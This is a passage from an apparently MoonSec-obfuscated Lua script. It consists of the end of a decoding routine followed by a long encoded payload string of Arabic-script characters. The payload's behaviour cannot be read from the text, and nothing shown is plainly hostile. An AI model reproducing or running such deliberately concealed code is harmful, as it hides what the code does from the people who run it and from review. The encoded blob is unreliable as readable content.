 <a+C do d.v[l]=n:sub(e,(function()e=r+e return e-C end)())l=l+o if l%j==y then l=m L(d.j,(G((d[d.v[m]]*A)+d[d.v[o]])))end end return M(d.j)end)("..:::MoonSec::..؃دحجئضسزقكنؠآټڪڝسڪټؠؠككنؠحسڪجټدڪڝڝڪقن؃حئآآسضڪززجحټؠحئكڪكزدڝحؠجئجآڝزج؃؃ڝكنكزئضضجسضزضحدقټنكدئآجئڪقآ؃قكجؠڪڝآؠنقضز؃جڝؠؠؠزؠئ؃ددټزجآضزحڝد؃ڝددض؃ڪڝؠټ؃سدضڪسؠجندحڝدنآزټضڪجڝس؃ضڝحكڪڝننسنئكدضڪكنسسآحڝدحڪ؃نضسقآآدقڝحټجؠئڪزآڪكؠسټجآڝڪآقټدنضزڪضڝئ؃دكآڪز؃؃زكئحنآجسحجڪد؃ڪؠآآنټزجآڪقسدزؠزج؃قحؠآكسززضقجحڝنقندننڝض؃ڪسئدئزحح؃جڪئك؃سآڪكننسڪكڪزضڝحآټنڪقڝق؃نئكآقزڪڪنكآنكآزقضكجنسآ؃سقز؃ؠكنڝؠزكئححج؃ئټؠنسجآآڪضضټجقضحټؠڝئقآټك؃حدؠكئضټسسكڪضننجڪټسسكڝككڝآآڪزؠڝن؃قدنززټئن؃سسټضضجحڪحكڪس؃جح؃ټڪڪآڝقنزدضؠزئزڪزكټزټټؠقككزنئزڝ؃كؠدآڪؠڪز؃زقحسجئئحض؃سحزدڝڪكضكزكئآحټ؃ڪحڝڪؠزحڝضحڪټآزڝدقكؠټسق؃جضآدئكڪؠحضڝڝڪ؃آدننسحڪنقآحجنڝئضد؃ؠنقؠسآئټزسجټټززآحجآ؃سټؠؠك؃ئنڝنئج؃ڝټآزسدؠكسحج؃؃ڪدآحڪڪنزئقڝسآئ؃ڪڪكآننؠؠحدكڪڝسڝنجح؃ؠجآدكئزضضسحټڝققڪح؃نزجحڪنسڪدقنڪجدؠ؃زض؃ضسضزكئزحق؃كجآدحټجكزق؃ئڪحڪڝنټؠنڝق؃ئزحق؃دڪ؃كنقدئټ؃حقڪقؠضڝئ؃حدضئ؃قؠدئآڪآكڝڪټآسزسدئآضسس؃زسدسدجددحڝجآنكضحؠؠټئئآدزڝدجؠضجټآڪئڪدحنحجڝآزسؠكضنآقزسقئكؠدجڝزدټنآسنض؃آضټجحدجڝئحزڝقؠڝدڝ؃دڪئكسئئ؃نؠكحڪڝن؃ڝئقحج؃ئڪضئ؃جڝجڝكنئ؃؃حضجڝؠآڪنڝك؃ؠكنقسنجز؃سآؠن؃ضض؃ضڝقؠكك؃ئڝحؠؠدنكقدسحئجدنټئسؠڝدندجضآزضڝ؃جزسڪڝآڝؠ؃كدڪحدحئضدضڝسټزنڪزك؃ڝندحقؠجسڪڪڝكجدؠكنضسڪحقؠححنؠض؃سقك؃سؠئآحټڝآجحئزكڝزجڪټقؠئزدسڝزټقنڝزند؃نححكنزضك؃دكجدآكضضزڪڪزقڝحؠسضدڪقكڝز؃ئټحڪ؃ڝجؠڪززؠدآسسسججسدزڝقټئقڪحنؠزج؃ڪنقنححؠنح؃ټآزئ؃ڪكټئټدزڪكآننؠقحئټڪجزضڝآزنحآټئسسڪڝزجحجآؠضدڪڝضقنحزټضڪجڝڪجڝسئڪضجڝحجحآڝئآحق؃كڪندټڝآنڝسټدنسزدزڝحټجؠئڪجؠټآجڪكدضكؠئئآحكټزڪضڝنقجنآآئؠڪضزئؠټسټئقحك؃نددسكقټ؃حد؃آحقندقڝجټئؠضقټئسجڝئكټزؠڪحجآضكڪزڝس؃كزض؃ڝآككحكڪآكسجټك؃جد؃ؠڪآآټڝجؠكسسححآقزسحقؠضآقكززقضكزؠجڝآنسجڝ؃جټڝڪؠئجؠقټضآڪجكقحڝؠڪئسڪضسننضڪټآڪنڝك؃زدضحزټضئجټټآؠزكقزكقدئ؃ؠجنټسجئنڝققضسحئجحئئقڝدقڪدجضكز؃ئؠحآ؃ټكټڝضڝئحقئڝزقڪحدآڝسټزؠقكڪضدټټزس؃ڝقنجآسڪؠسقحسجئئدؠڪسزآ؃ڪكض؃ڝټكزئڝدسڪحڪؠنضسڪسقندسنڝئڪټټزټدنحسقدضآجټدڪڝكئآقټدټ؃ؠنڪكڪجس؃زڪقآكن؃سؠ؃دكجدنن؃ئڪڝققؠ؃ټقڪئڝټڝسؠ؃ڝكآضزكڝزآضټجڪححآآسڝڝڪڝآقنسضئسحزدآؠآدحڪسسنزؠنسجئد؃ڝدټح؃سڝنټقكڪقحڝكڝڝټنؠؠكآسؠكؠڪسنزنڪنح؃ؠننقضسسئزؠڪقجټڪدڝد؃س؃حټضضج؃ددڝح؃آدجزسټندټټزكج؃زټؠؠآكټټ؃زڝحجؠكضئ؃حقنددټقسڪ؃؃ننجټضضټدنټقڪسڝزق؃آكئئدآڝ؃ڪكآززضقجكآڝآدسزد؃زڝئ؃ضدضضحح؃جڪئ؃نڪ؃نټسك؃ڝنآكنضضڝټؠنزټحآڪجكدسټحؠڪدك؃ضس؃حئؠئ؃دؠڝآټټټآنڪنڝؠدكدڪ؃ئؠڝدآسنزققؠؠؠجزسدآ؃ئڝزټضنكقنضټحز؃ضؠئټټؠزكقزكسحددنسئ؃ټزسدڝد؃كسحئجحئ؃ضڪسآزڪ؃آكسڪضنحآ؃ټڪڪټزق؃دڪنڪئجڪؠسټڪكنضئسټڪسح؃سكححؠټڪڪضآ؃ندقحؠحقكجك؃آؠجزؠڪ؃ك؃سؠئآحټكضټدقكڪڝكحقټقؠجڪدسڝزټقؠدزز؃دكئجڪآسئآڝ؃ققڪكقزسئئضحسئقدئؠزضسقڝزحئټحڪ؃ڝآجؠضضضؠدڝؠڝآحقدټڝقټكؠندئقجڝكآنقضڝدجكآننجقئسضكجئئقضئسڝنزندقنكآقجسد؃ڝدټح؃ضؠجئزڪ؃زسڝڝقآززآدكآزټضڪسزسڝسآټڪڪڝڝڪججسآئزحق؃كئڪڪڝنټڝڝك؃ححئضدڪڝحټجؠئكجئڝټڪزقدئنسئقؠ؃ز؃ڝڪنححڪټزجقڝ؃آئنضقسنزسحڪقسننحضئڝكقج؃نئضڝقكئجددآؠؠكسززضقټڝسكس؃ئآزضټنآجس؃ئدحح؃جڪئآضټڝآزټحضضحن؃ؠڪآټسقؠددؠضضدڪضسټدضكڝجڝآؠزقندئ؃دؠڝآټټئحسڪئآئقئك؃ڝؠدڝحآسنزققؠنضآ؃ڪؠكضكددقنضټدضنټجسدزكڪ؃آآزكقزكضنقدزؠئ؃ؠڪؠزكززضئحڝڝټقنؠدڪدز؃ضآسكجنئج؃؃ټڪڪآڝؠنز؃ڝآكسآ؃دؠڝسټزؠقزؠزجآئزقڝؠئحكټآقندقحسجزسئحدجآجقنجټ؃ضآدڪكجج؃ڪڪڝټ؃نؠضك؃آڝټدضڪقحټټڝؠككنزؠنڪئآټ؃ضكټڝضقټزټآسنئضحس؃زقڝزضټج؃ئئڪآضآندنڝ؃ټدؠحټضآحكؠسئڪڪڪسټڝنزسؠئز؃آڝټحض؃؃ڪدآحآڪدنآضؠقج؃دئڪټټ؃نؠقآسټدڪدحضزدسضسضجزئق؃ضسجزدقجؠ؃ڝآڝزڝڝ؃ټسنڪضؠدسآدزك؃ڪقؠسسئزحقزكززحس؃؃حقزآكسجڝددڝحټجڝآآؠسټدنآكسڪحجؠقئئ؃ڝآ؃سټدئآكزقټئټجنضقسسزكنزسئز؃نټحنټسحدد؃؃ټئكڝضسحټڪآؠقكآس؃جكدنڝؠحڪدؠڝنټنكنضكضنجكڪزټسنسقزسققؠجنټټسڝڝققحآڪقڪجڪقدئسڪؠزكآضقكحآؠكقحدڝڝآټټؠڪنؠئآڪؠقټكټدضڪضآسنزآؠآدقدئڝدقكڪكزقجڝڝڪټڪئنڝززدند؃ڪجنضدضسقجؠدآڝټحضڝنآنزڝئدڪڪنكحد؃؃ټننقسضدكآڪنزحؠڪڪآڝؠ؃قڝئؠټنزئد؃نحئئآسض؃ڝسكنحنؠڝض؃ټزقدحكؠحضسڝدزجدټنكئسټآسئڪئكئجضآنضكټټؠدكحزجضآ؃ضنجججآقز؃ڝحزححسؠكضؠڝنقضجؠؠدقجسئئضزقجضڪزقؠجئڝ؃قسحضڪسنحجقټټسڝئجڝضؠڝجآدزڝقټكټ؃ئؠڪضڪكجټڝآئقڪزآحنجقئقكئضز؃ؠ؃حقدنزؠكحسټئڪحڝآئڪسجآقزكقنآدضجټدقڝكټنئڝضڝ؃ڝ؃كټسڪټجزڪڝآجنئقضؠقكڝزؠئكدآ؃حآحقڝزحئجحزڝؠآڝڝضؠئكضزسضزجقدك؃ندؠئئكټزڪضڝئ؃حد؃حدز؃ئآؠقآسزئقحككؠس؃ججقڝؠج؃زسضجزدحڝجټئآقڪضزحجحضڝڝجڪټڝئؠټكڪزڝضسحدؠزئكټ؃ئندئنڝحآؠ؃س؃ڝكقڪحڪؠؠئڝڝزكضدحكټضقڪزقد؃ندضضڝجندؠڝآحجئئ؃جحن؃دكڝضندئڪضآسنززڪئكټڝزدڝققججؠؠڝسكڝڝقح؃ټآقضزڝدزننكزكضنجؠدآڝټدڪد؃ڪ؃ټنزجئجحئ؃ضټآنزجټآڝضسټ؃كنجضؠحجسڪحقڝ؃ڪقكئضټټزؠآقؠڪككزنضؠقڪزؠجئدجڪ؃ننؠكزقئئحض؃سټټنقجڪټ؃ضزټضكؠحكآ؃سئڪدسآحضؠزئجڪززئدقنزجحټسنئض؃دڪڝڝڪ؃ؠزقحدقننجدنڝسد؃ككؠحئندضسڝڪك؃حقؠؠئزڝ؃قدزئضضجسدزڝقټكڝن؃نؠآحآضحدڝ؃؃ڪد؃زؠزضڪڝئجضڪؠؠجئقآنسدڝڪئقدقن؃ضسڪڪزڪ؃زنزحټ؃ئجڝدقڝكټنؠدسؠ؃حقدحټآضضڝڝټ؃ؠننقضسسئزدئئضكزحنزسنزضڝضجج؃ددڝحدآڝحڪجؠئټدئزدكڝنټؠ؃قآكزجدجسڝئز؃ئؠز؃جټدن؃جڪټققنحض؃؃ټحنټقڪسڝ؃حندسضندججنڝټڪقحضقجكدن؃جنآئنټنسڝدزككدجټززح؃كضجكزسقئكحنض؃ئزدقټؠؠدقئضحددڪقسقضڝضزدڪڪدؠآق؃ڝؠ؃ټټټؠڪكڝآؠزد؃؃قڝحزس؃دقآجضجڪ؃حدټڪقز؃كنڪحزآدكسسڪججدئڝضدڪآكضآنقضن؃ڪنقجضآڝئڝڪؠج؃ڝآزڪجكقح؃ضنټجزآققسټننسدڪټآزد؃حزټسجضكجئدضڝسحكڪټقڪحقټ؃سآټآ؃ئټڝآ؃ند؃ڪضڝټ؃ؠئحڪسجكقؠكقنسؠئآحجڪڪقئدسكټدزټڪسآ؃قكقحزنضسق؃حقټحڝ؃ټحزڝڝڪ؃آدكقسجڝكقؠدحكنض؃ڪئزئټجزقئټحڪ؃ڝڝزندئ؃ټكززڝټقحجسؠڪضزڝ؃كضجنسڝجڪدڝ؃؃ججڝضقحڝحنڝسس؃سنكئجڪكقدحآنڪسڝ؃ڝنحئكڪضنضكټزضضسجزحئآكضآ؃حكقحڪنجئڝڝآئكڪؠآجنئقضضڪدنننضحټقزددكندئضحڝجقددڝحټجڪئنقسحدقآؠزؠجئڪسكآنآزڪضڝئ؃سدضقدنټققؠجضدجڪزنضضن؃نڪسؠنسآجسض؃جددحڝجټئؠضكسآڪكقضڝدڪڝؠټآؠټككضسڪحزڝحض؃آڪئآضنسآكقآح؃ؠنضضڪآقضد؃نؠڝآضزجحدجڝئضقنآززدسجكزسڝقڝآټټؠڪكڝق؃سدزقسجڪئڝئآسنزققنكزؠدقؠد؃؃آڝكددڝآؠسنؠئزئجڝڪدزڝضززڝضنجؠدآؠضسڪئجنټ؃سجڪضزجس؃ضڪسآزڝؠآضقضجزڝؠؠجسڝحنآڪكآض؃ڝكنجزقحسڝزكآسحضنسڝجآدټڝڪدڝڝڝننضدڪټقآئؠڝسنجئڝ؃جندحڝ؃سؠحضدڪدؠكضن؃زئحضڝجضدسڝزحئدنڪڝآكنؠزڪدجحددسڝقآكقزسڪئضحس؃زټڪنكجڝټدضقڪجققح؃ؠنضڪؠسككزئضضجسجټڝؠحسنټؠنسڪكئئئدڝ؃؃ڪدزؠ؃ضئجؠؠضئڝككئڪڝآننؠقآنئؠڪئحؠنزد؃حئآكئزضضسجزدقڝك؃؃ڝؠئنقجضڪجڝح؃كجحن؃جؠكضټآڝزڪحڪ؃كڪنآؠضجدؠآقضكجټټڝضآټسؠئكضزسضجدقنقآكڪئؠآكټزڪنكقڪضقدڝټكقحزټئدڝزڝسحڝ؃نڪؠآآئكزدق؃قض؃دسڝضټڪقؠضكسززئڪدكنڝئدآقضجڝآن؃جضآدسدڝڪق؃ڝنؠڪضټټآضآدنؠحسسټضنڪقڝز؃نجضټ؃كؠس؃ئآڝكټئكندئ؃دؠڝآټټآنزكدجنئججككسټڝسآسنزققؠآزك؃ؠضسحجټقزجدضضقدڝټؠزؠ؃ڪنڪجضټززسق؃ئټدآڝټټڪؠضق؃دسنقحڝننضڝ؃جنححئآقضضڪټكددضكضضجڪؠټكقئضججئدضڪآؠزئټټڝسسڪؠننجڝآڪضڝ؃ضقټحئآقئآآآزآحسټټنڝقنسؠئآجكققئسضڝټټؠضئجضؠجضدسڝزټؠكجدنؠضضضڪكقزڝدڪسآدنحقجئؠ؃آئزئجؠك؃ؠڝحكجسآئټحڪدقآنئسڪنكحدڪؠجضكق؃ڝڪټكؠنكؠآټزضڝحسآڝؠزكز؃ؠنقئسضئسدټڪقزڪد؃كزدجټقضڪڝؠكنج؃ؠقئئڝكقزدكؠدضدڪڪز؃ڝ؃نڪئسنسئټح؃؃دڪحؠؠزز؃ؠن؃جڝنټزد؃آنجدقټجضنڝڝكززنڝكټجؠئكضآحكنضؠدحؠققآضسقڝقئضڝئ؃حدآزكټڪزحزئجقټڝسجؠ؃نڪؠآآنجسڪ؃ئكسدټنقس؃ڪئقڪحئنزحجټؠزج؃كنكئضآڪدؠزقئدحح؃ججزآڪضؠټنسؠڝ؃زك؃دجج؃ټقڪآضزڪدسكنحآؠدحټسڝحآآنضجټجضدننڪنؠڪكڝق؃سكدحؠ؃ئ؃ټضزټڝڝق؃ئدټدضټ؃دقڪټڝنڝك؃زدضحججدئئسدسئحنززكضنجؠسڪحئؠحئكڝجزكحضنڝ؃جآآقد؃ڝآ؃ئضڪؠنئجح؃ټڪڪآڝؠضدحڪؠآؠؠآ؃؃حټټټؠقككزنجآقضححدڪكئنڪز؃قزسجئئحضضز؃دكححسآضزآئآحټ؃ڪڪڝټ؃ؠدڪسؠجسكجكدسڝزټقڪدزنڝڪنسحڝحضڝڝڪ؃آدؠڪضجڝكقحدقؠقضزضضؠ؃قؠسآئټجنڪكقجدئنج؃قنؠضؠجسدزڝقزئكئټدحؠدڪس؃ئئ؃نڪدآحنجآنؠدس؃دقڪزئڝجڝدكآققئټسحڝد؃ڝدټحؠجكئؠآك